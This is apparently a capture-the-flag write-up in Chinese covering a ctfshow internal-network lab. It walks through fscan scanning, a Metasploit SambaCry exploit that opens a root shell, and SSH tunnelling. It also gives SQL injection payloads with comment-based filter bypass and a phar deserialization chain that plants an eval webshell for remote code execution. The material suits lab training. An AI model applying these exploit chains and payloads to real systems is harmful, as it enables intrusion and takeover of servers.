










---
title: "ctfshow入门内网渗透"
date: 2025-06-15T20:11:05+08:00
summary: "ctfshow入门内网渗透"
url: "/posts/ctfshow入门内网渗透/"
categories:
  - "ctfshow"
tags:
  - "内网渗透"
draft: false
---

## web859_有跳板机

开启环境后用ssh连接一下

攻击机**不出网**，但是给了工具

问题是怎么扫内网ip呢？后面发现可以利用ssh传输fscan

```
scp -P 28242 fscan ctfshow@pwn.challenge.ctf.show:/tmp
```

传上去了，那我们扫一下内网

```
$ whoami
ctfshow
$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1450
        inet 172.2.237.4  netmask 255.255.255.0  broadcast 172.2.237.255
        ether 02:42:ac:02:ed:04  txqueuelen 0  (Ethernet)
        RX packets 119  bytes 12212 (12.2 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 83  bytes 11563 (11.5 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

但是这里权限太低了，看看能不能提权，本来以为需要查找sudo -l去提权的，结果只需要sudo su就行了，那么就来到了root权限



给fscan权限

```
chmod +x *
```

然后开始扫内网

```c#
root@shell:/tmp# ./fscan -h 172.2.203.0/24

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
(icmp) Target 172.2.203.4     is alive
(icmp) Target 172.2.203.1     is alive
(icmp) Target 172.2.203.5     is alive
(icmp) Target 172.2.203.6     is alive
(icmp) Target 172.2.203.7     is alive
(icmp) Target 172.2.203.2     is alive
(icmp) Target 172.2.203.3     is alive
[*] Icmp alive hosts len is: 7
172.2.203.6:445 open
172.2.203.4:22 open
172.2.203.6:139 open
172.2.203.5:9000 open
172.2.203.5:80 open
[*] alive ports len is: 5
start vulscan
[+] FCGI 172.2.203.5:9000 
Status: 403 Forbidden
X-Powered-By: PHP/7.3.22
Content-type: text/html; charset=UTF-8

Access denied.
stderr:Access to the script '/etc/issue' has been denied (see security.limit_extensions)
plesa try other path,as -path /www/wwwroot/index.php
[*] OsInfo 172.2.203.6  (Windows 6.1)
[*] NetBios 172.2.203.6     oa                                  Windows 6.1
[*] WebTitle http://172.2.203.5        code:200 len:2880   title:欢迎登陆CTFshow文件管理系统
[+] PocScan http://172.2.203.5 poc-yaml-php-cgi-cve-2012-1823 
```

看到172.2.203.6开放了445端口，猜测有Samba服务，用msf中的辅助模块**`auxiliary/scanner/smb/smb_version`**检测一下Samba的版本以及是否存在漏洞

```
msf6 > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > show options

Module options (auxiliary/scanner/smb/smb_version):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com
                                       /docs/using-metasploit/basics/using-metasploit.html
   THREADS  1                yes       The number of concurrent threads (max one per host)


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/smb/smb_version) > set rhosts 172.2.237.6
rhosts => 172.2.237.6
msf6 auxiliary(scanner/smb/smb_version) > run

[*] 172.2.237.6:445       - SMB Detected (versions:1, 2, 3) (preferred dialect:SMB 3.1.1) (compression capabilities:) (encryption capabilities:AES-128-CCM) (signatures:optional) (guid:{0000616f-0000-0000-0000-000000000000}) (authentication domain:OA)
[*] 172.2.237.6:445       -   Host could not be identified: Windows 6.1 (Samba 4.6.3)
[*] 172.2.237.6:          - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

可以看到这里有用到旧协议，我们可以试着打一下

```
msf6 exploit(linux/samba/is_known_pipename) > use exploit/linux/samba/is_known_pipename
[*] Using configured payload cmd/unix/interact
msf6 exploit(linux/samba/is_known_pipename) > show options 

Module options (exploit/linux/samba/is_known_pipename):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   RHOSTS                           yes       The target host(s), see https://docs.metaspl
                                              oit.com/docs/using-metasploit/basics/using-m
                                              etasploit.html
   RPORT           445              yes       The SMB service port (TCP)
   SMB_FOLDER                       no        The directory to use within the writeable SM
                                              B share
   SMB_SHARE_NAME                   no        The name of the SMB share containing a write
                                              able directory


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Interact)


View the full module info with the info, or info -d command.

msf6 exploit(linux/samba/is_known_pipename) > set rhosts 172.2.237.6
rhosts => 172.2.237.6
msf6 exploit(linux/samba/is_known_pipename) > run

[*] 172.2.237.6:445 - Using location \\172.2.237.6\myshare\ for the path
[*] 172.2.237.6:445 - Retrieving the remote path of the share 'myshare'
[*] 172.2.237.6:445 - Share 'myshare' has server-side path '/home/share
[*] 172.2.237.6:445 - Uploaded payload to \\172.2.237.6\myshare\ZdrCXlDR.so
[*] 172.2.237.6:445 - Loading the payload from server-side path /home/share/ZdrCXlDR.so using \\PIPE\/home/share/ZdrCXlDR.so...
[-] 172.2.237.6:445 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 172.2.237.6:445 - Loading the payload from server-side path /home/share/ZdrCXlDR.so using /home/share/ZdrCXlDR.so...
[+] 172.2.237.6:445 - Probe response indicates the interactive payload was loaded...
[*] Found shell.
[*] Command shell session 1 opened (172.2.237.4:45913 -> 172.2.237.6:445) at 2025-06-15 20:40:50 +0800

ls
whoami
root
```

出来了，我以为打不通来着，那我们换成bash的shell

```python
python -c 'import pty; pty.spawn("/bin/bash")'
root@oa:/tmp# cd /
cd /
root@oa:/# ls
ls
bin   dev  home  lib64  mnt  proc  run   srv  tmp  var
boot  etc  lib   media  opt  root  sbin  sys  usr
root@oa:/# cd /toor
cd /toor
bash: cd: /toor: No such file or directory
root@oa:/# cd /root
cd /root
root@oa:/root# ls
ls
flag.txt
root@oa:/root# cat flag.txt
cat flag.txt
ctfshow{e7899cb3-53b6-4e01-b8c8-5b4cf7e88368}
root@oa:/root# 
```

成功拿到flag

这里的话也可以发现172.2.203.5开放了80端口，但是靶机不出网，需要进行内网穿透，我们可以搭建ssh隧道

```
ssh -L (本地端口):(目标主机ip):(目标主机端口) (跳板机用户名)@(跳板机ip) -p (跳板机端口)
ssh -L 8085:172.2.68.5:80 ctfshow@pwn.challenge.ctf.show -p 28245
```

然后访问`http://127.0.0.1:8085/`就可以出来了



刚刚fscan扫出来一个cve-2012-1823，可以参考P牛的文章：https://www.leavesongs.com/PENETRATION/php-cgi-cve-2012-1823.html

在页面右下角的**CTFshow文件管理系统**发现源码泄露，我们下载下来分析一下

```php
/api/index.php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2023-02-22 09:15:26
# @Last Modified by:   h1xa
# @Last Modified time: 2023-02-22 11:07:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


error_reporting(0);
session_start();

class action{

	private $username;
	private $password;
	private $email;

	public function doAction(){
		
		$action = $_GET['a'] ?? "login";

		switch ($action) {
			case 'login':
				$this->doLogin();
				break;
			case 'reset':
				$this->doReset();
				break;
			case 'view':
				$this->doView();
				break;	
			default:
				$this->doDefault();
				break;
		}
	}


	function doLogin(){

		include 'config.php';
		$username = $this->doFilter($_POST['username']);
		$password = $this->doFilter($_POST['password']);
		$conn = new mysqli($dbhost,$dbuser,$dbpwd,$dbname);
		if(mysqli_connect_errno()){
			die(json_encode(array(mysqli_connect_error())));
		}
		$conn->query("set name $charName");
		
		$sql = "select password from user where username = '$username' and password = '$password' limit 0,1;";

		$result = $conn->query($sql);
		$row = $result->fetch_array(MYSQLI_ASSOC);

		if($row['password']===$password){
			$_SESSION['LOGIN']=true;

		}else{
			$_SESSION['LOGIN']=false;
			$_SESSION['msg']='登陆失败';

		}
		$conn->close();
		$_SESSION['LOGIN']?$this->dispatcher("../ckfinder/ckfinder.html"):$this->dispatcher("../index.php");
	}


	function doReset(){
		include 'config.php';
		$email = filter_input(INPUT_POST, 'email',FILTER_VALIDATE_EMAIL);
		$username = $this->doFilter($_POST['username']);
		$conn = new mysqli($dbhost,$dbuser,$dbpwd,$dbname);
		if(mysqli_connect_errno()){
			die(json_encode(array(mysqli_connect_error())));
		}
		$conn->query("set name $charName");
		
		$sql = "select email from user where email = '$email' and username = '$username'";

		$result = $conn->query($sql);
		$row = $result->fetch_array(MYSQLI_ASSOC);
		if($row['email']){
				$_SESSION['RESET']=true;
				$this->email = $row['email'];
				$_SESSION['msg']="你好！ 已经将重置密码链接发送至邮箱".$this->email;
		}else{
			$_SESSION['RESET']=false;
			$_SESSION['msg']="邮箱不存在";
		}
		$conn->close();
		$this->dispatcher("../index.php");
	}

	function doDefault(){
		header("location: ../index.php");
	}

	function doFilter($str){
		$str = str_replace("'", "%27", $str);
		$str = str_replace("\"", "%22", $str);
		$str = str_replace("\\", "%5c", $str);

		return $str;
	}


	function dispatcher($url){
		header("location:$url");

	}

	

	public function __wakeup(){
		$this->clear();
	}

	function sendResetMail($mail){
		$content = "你好，下面是你的重置密码链接，请复制到浏览器地址栏打开.";
		$content.= "http://xxx.com/?token=xxxx&email=$mail";

		//功能暂未实现，先保留邮件，以后发送
		file_put_contents("../mail_cache/cache.php","<?php exit('$content');?>");
		
	}

	function checkSession(){
		if($_SESSION['LOGIN']!==true){
			die("请先登陆");
			return false;
		}else{
			return true;
		}
		
	}
	function doView(){

		$this->checkSession();
		$file=str_replace("..","",$_POST['file']);

		if(file_exists($file)){
			
			header("Content-type: image/jpeg");
			echo file_get_contents("../ckfinder/userfiles/".$file);
		}
	}

	function clear(){
		if($_SESSION['LOGIN'] && isset($this->email)){
			$this->sendResetMail($this->email);
		}
	}

	

}

//hack here;
$action = new action();
$action->doAction();
```

在登录界面发现账号密码都存在一个filter过滤，但是我们关注到重置页面

```php
	function doReset(){
		include 'config.php';
		$email = filter_input(INPUT_POST, 'email',FILTER_VALIDATE_EMAIL);
		$username = $this->doFilter($_POST['username']);
		$conn = new mysqli($dbhost,$dbuser,$dbpwd,$dbname);
		if(mysqli_connect_errno()){
			die(json_encode(array(mysqli_connect_error())));
		}
		$conn->query("set name $charName");
		
		$sql = "select email from user where email = '$email' and username = '$username'";

		$result = $conn->query($sql);
		$row = $result->fetch_array(MYSQLI_ASSOC);
		if($row['email']){
				$_SESSION['RESET']=true;
				$this->email = $row['email'];
				$_SESSION['msg']="你好！ 已经将重置密码链接发送至邮箱".$this->email;
		}else{
			$_SESSION['RESET']=false;
			$_SESSION['msg']="邮箱不存在";
		}
		$conn->close();
		$this->dispatcher("../index.php");
	}
```

这里的话对email并没有过滤，尝试sql注入fuzz一下



过滤空格了，绕过一下，可以用`/**/`去绕过

过滤了括号，双引号，然后我们注入一下

```
email='union/**/select/**/username/**/from/**/user#@qq.com&username=123
email='union/**/select/**/password/**/from/**/user#@qq.com&username=123
```

拿到账号密码

```
ctfshow/ctfshase????
```

登录进去是一个文件上传的口子，不过这个这个框架应该是没啥问题的，返回去看看源码吧

在api/index.php中存在一个写文件的功能，假如可以控制`$mail`的值，就可以写入一个木马进去。



先看看在哪调用了这个方法



然后再看哪里调用了clear



起始调用点是`__wakeup`，结合文件上传的口子，那我们可以打phar反序列化，在doView函数中

```php
	function doView(){

		$this->checkSession();
		$file=str_replace("..","",$_POST['file']);

		if(file_exists($file)){
			
			header("Content-type: image/jpeg");
			echo file_get_contents("../ckfinder/userfiles/".$file);
		}
	}
```

这里file参数的可控的，那我们就可以传文件打phar反序列化了

```php
<?php

class action{
    private $email="'.eval(\$_POST[1]));//";
}
$obj = new action();

$phar = new phar('test.phar');//后缀名必须为phar
$phar->startBuffering();
$phar->setStub(file_get_contents('1.png')."<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($obj);//自定义的meta-data存入manifest
$phar->addFromString("flag.txt","flag");//添加要压缩的文件
//签名自动计算
$phar->stopBuffering();

```

这里的话有一个检测，需要绕过一下，随便找一个小点的图片，将生成的phar文件后缀名换成png然后上传



上传成功之后我们触发doView方法并触发反序列化



触发后访问/mail_cache/cache.php



试着RCE试一下

```php
1=phpinfo();
```



成了，那我们用蚁剑连接，但是其实这个靶机里没有flag，最戏剧的一集了哈哈哈哈哈
